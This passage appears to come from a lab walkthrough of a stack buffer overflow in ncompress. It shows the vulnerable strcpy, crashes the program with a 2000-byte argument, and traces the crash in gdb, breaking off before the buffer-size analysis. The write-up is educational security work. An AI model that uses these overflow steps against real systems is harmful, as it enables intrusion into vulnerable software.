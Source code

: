 Since `MAXPATHLEN` is 1024, `strcpy` does not check whether the content of `fileptr` exceeds this limit, making it vulnerable to buffer overflow.

## Exploiting the Vulnerability: GDB and Segmentation fault Analysis

I tested `ncompress` with different input sizes:
```bash
ubuntu@dbd4f638e4eb:~$ ncompress $(python3 -c 'print("B"*1024)')
BBBBBB.........BBBBB: File name too long
```
Increasing the input to 2000 characters triggered a segfault:
``` bash
ubuntu@dbd4f638e4eb:~$ ncompress $(python3 -c 'print("B"*2000)')
BBBBB..........BBBBBB: File name too long
Segmentation fault (core dumped)
```

I then ran`zncompress_real` in `gdb`:
``` bash
ubuntu@dbd4f638e4eb:~$ gdb --args ncompress_real $(python3 -c 'print("B"*2000)')
```
Setting breakpoints:
``` bash
(gdb) b main
Breakpoint 1 at 0x135f: file compress42.c, line 704.
(gdb) b comprexx
Breakpoint 2 at 0x17fb: file compress42.c, line 888.
(gdb) 
```
Running the program:
``` bash
(gdb) r
Starting program: /usr/sbin/ncompress_real BBBBBBB...BBBBBBBBB
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Breakpoint 1, main (argc=2, argv=0xffffcf04) at compress42.c:704
warning: Source file is more recent than executable.
704	    	if (fgnd_flag = (signal(SIGINT, SIG_IGN) != SIG_IGN))
(gdb) 
```
``` bash
(gdb) c
Continuing.

Breakpoint 2, comprexx (fileptr=0x565c51a0) at compress42.c:888
888			strcpy(tempname,*fileptr);
(gdb) 
```

Next I disassembled `comprexx` to analyze its stack usage.

## Finding the Buffer size
